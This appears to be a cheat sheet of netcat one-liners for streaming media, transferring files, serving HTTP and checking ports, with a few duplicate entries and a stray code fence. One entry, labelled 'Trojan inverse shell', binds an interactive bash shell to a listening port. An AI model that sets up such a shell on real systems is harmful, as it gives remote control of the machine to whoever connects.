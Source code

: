 ##### mp3 streaming
```sh
nc -l -p 2000 < song.mp3
```

##### netcat - receive tar archive remotely
```sh
nc -l $PORT | pv -b > archive.tar.bz2
```

##### One command line web server on port 80 using nc (netcat)
```
```sh
nc -kl 5432 -c 'echo -e "HTTP/1.1 200 OK\r\n$(date)\r\n\r\n";echo "<p>How are you today?</p>"'
```

##### determine if tcp port is open
```sh
nc <ip> <port> -v
```

##### Sharing a file through http 80 port:
```sh
nc -w 5 -v -l -p 80 < file.ext
```

##### Stream and copy a video from lan
```sh
nc HOST PORT | tee movie.mp4 | mplayer -
```

##### Trojan inverse shell
```sh
nc -l -p 2000 -e /bin/bash
```

##### determine if tcp port is open
```sh
nc -zw2 www.example.com 80 && echo open
```

##### Complete TCP Handshake on a given host-port
```sh
nc -zvw 1 host port
```

##### Sharing file through http 80 port
```sh
nc -v -l 80 < file.ext
```

##### Sharing file through http 80 port
```sh
nc -v -l 80 < file.ext
```
